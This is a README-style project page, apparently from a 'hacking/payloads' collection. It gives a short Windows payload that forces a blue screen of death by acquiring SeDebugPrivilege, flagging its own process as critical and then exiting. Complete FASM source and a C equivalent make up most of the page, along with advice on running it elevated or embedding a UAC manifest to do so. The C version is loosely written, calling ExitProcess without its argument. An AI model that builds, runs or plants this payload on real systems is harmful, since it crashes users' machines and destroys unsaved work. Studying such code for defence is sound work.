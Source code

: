 # BSOD

This article describes how to produce a blue screen of death on any Windows
operating system with just 3 lines of assembler. **Warning:** Consider testing
in a virtual environment rather than a productive system.

## How it works

The whole procedure is made of 3 steps:

1. Get SeDebugPrivilege. *(this requires elevated privileges)**
2. Set the current process to critical
3. ExitProcess to terminate

And because setting the process to critical after obtaining SeDebugPrivilege,
terminating it will cause a blue screen. The executable size of the FASM version
is 1024 bytes. And don't forget to either click "Run as administrator" or add
use the version with the embedded UAC manifest, which is 1.5 KB.

[![](http://bytecode77.com/images/sites/hacking/payloads/bsod/run.png)](http://bytecode77.com/images/sites/hacking/payloads/bsod/run.png)

## Source code in FASM:

This is the **FASM** version. The executable is **1 KB** when compiled.

```asm
format PE GUI 4.0
include 'win32a.inc'

lea     eax, [esp+20]
invoke  RtlAdjustPrivilege, 20, 1, 0, eax
invoke  RtlSetProcessIsCritical, 1, 0, 0
invoke  ExitProcess, 0

data import
    library \
        kernel32, 'kernel32', \
        ntdll, 'ntdll'
    import kernel32, \
        ExitProcess, 'ExitProcess'
    import ntdll, \
        RtlAdjustPrivilege, 'RtlAdjustPrivilege', \
        RtlSetProcessIsCritical, 'RtlSetProcessIsCritical'
end data
```

## Equivalent in C

This is a working code example in C. The executable is **1.5 KB** when compiled
with TCC.

```cpp
int main()
{
    int e = 0;
    RtlAdjustPrivilege(20, 1, 0, &e);
    RtlSetProcessIsCritical(1, 0, 0);
    ExitProcess();
}
```

## Screenshot

Oh, look! Windows 10 has an "improved" blue screen, even with a QR code. How considerate! Well, I miss the old color and the nostalgia I associated with it.

[![](http://bytecode77.com/images/sites/hacking/payloads/bsod/bsod.png)](http://bytecode77.com/images/sites/hacking/payloads/bsod/bsod.png)

## Project Page

[![](https://bytecode77.com/images/shared/favicon16.png) bytecode77.com/hacking/payloads/bsod](https://bytecode77.com/hacking/payloads/bsod)